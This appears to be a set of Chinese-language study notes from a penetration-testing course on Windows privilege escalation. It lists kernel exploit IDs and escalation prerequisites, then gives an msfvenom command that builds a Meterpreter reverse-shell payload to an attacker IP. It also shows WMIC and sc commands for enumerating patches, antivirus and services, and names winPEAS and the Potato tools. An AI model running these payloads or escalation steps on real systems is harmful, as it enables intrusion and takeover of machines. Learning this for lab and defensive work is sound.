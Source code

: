 - 参考 b站 蚁景网安 windows 提权



## 0x01 提权类别

1. 内核提权
   - ms06-067
   - Ms10-084
   - Ms11-014
   - ……

1. 应用程序提权



## 0x02 提权条件

1. 拥有普通账号权限
2. 拥有某些软件的账号密码
3. 本地或者远程服务器上存在漏洞
4. 拥有漏洞利用工具代码



## 0x03 提权思路

- 前期信息收集

- Meterpreter提权

- Windows系统内核漏洞

  > 内核漏洞利用比较简单

- Windows服务漏洞

  > 大概率找不到

- Windows注册表



## 0x04 信息收集

### 一. 模拟WebShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.246.149 LPORT=6666 -f exe -o shell.exe
```

![image-20240117085918601](./assets/image-20240117085918601.png)

获取到一个普通用户的shell

![image-20240117092107572](./assets/image-20240117092107572.png)

![image-20240117102030432](./assets/image-20240117102030432.png)

### 二. WMIC 信息收集

1. 补丁信息

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![image-20240117092532122](./assets/image-20240117092532122.png)



2. 查看安装了哪些杀软

````
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
````

![image-20240117094450077](./assets/image-20240117094450077.png)

查看杀软安装路径

```
WMIC /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
```

![image-20240117094556335](./assets/image-20240117094556335.png)

3. 组



### 三. sc 信息收集

查看所有服务

```
sc query state=all
```

服务的详细信息

```bash
sc qc 服务名
```

![image-20240117100714616](./assets/image-20240117100714616.png)



### 四. 脚本信息收集

- https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat
- https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat



### 五. 提权工具脚本

Potato家族：

- Rottern Potato(烂土豆) 本地提权至SYSTEM
- Orogin Potato
- Rogue Potato